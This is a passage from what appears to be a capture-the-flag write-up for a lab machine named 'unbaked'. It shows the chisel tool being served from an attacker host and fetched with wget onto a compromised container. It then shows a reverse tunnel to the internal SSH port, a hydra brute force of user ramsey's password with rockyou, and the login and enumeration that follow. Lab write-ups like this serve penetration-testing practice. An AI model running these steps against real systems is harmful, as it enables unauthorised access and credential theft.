```powershell
######################################################################## 100.0%
Installed at /usr/local/bin/chisel
```

**For source:**

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

`cp /usr/local/bin/chisel .`

`python3 -m http.server 8000`

```powershell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```powershell
root@8b39a559b296:/home/site# cd /tmp
root@8b39a559b296:/tmp# wget http://10.2.37.37:8000/chisel
chisel              100%[===================>]   8.94M  1.39MB/s    in 10s     

2024-12-29 09:07:41 (898 KB/s) - ‘chisel’ saved [9371800/9371800]

root@8b39a559b296:/tmp#
```

`sudo chisel server -p 1880 --reverse`

```powershell
2024/12/29 04:11:18 server: Listening on http://0.0.0.0:1880
```

```powershell
root@8b39a559b296:/tmp# chmod +x chisel
root@8b39a559b296:/tmp# ./chisel client 10.2.37.37:1880 R:22:172.17.0.1:22

2024/12/29 09:09:10 client: Connecting to ws://10.2.37.37:1880
2024/12/29 09:09:13 client: Connected (Latency 319.824664ms)

```

`hydra -l ramsey -P /usr/share/wordlists/rockyou.txt -f -e ns -t 50 ssh://localhost`

```powershell
[22][ssh] host: localhost   login: ramsey   password: 12345678
```

> **SSH Connection Phase**
> 

`ssh ramsey@localhost -p 22`

```powershell
ramsey@localhost's password: 12345678

Last login: Tue Oct  6 22:39:31 2020 from 172.17.0.2

ramsey@unbaked:~$ whoami
ramsey
ramsey@unbaked:~$ id
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
ramsey@unbaked:~$ groups
ramsey
ramsey@unbaked:~$ getent group ramsey
ramsey:x:1001:
ramsey@unbaked:~$ ls -lsa /home
total 16
4 drwxr-xr-x  4 root   root   4096 Oct  3  2020 .
4 drwxr-xr-x 23 root   root   4096 Oct  3  2020 ..
4 drwxr-xr-x  3 oliver oliver 4096 Oct  3  2020 oliver
4 drwxr-xr-x  5 ramsey ramsey 4096 Oct  6  2020 ramsey
```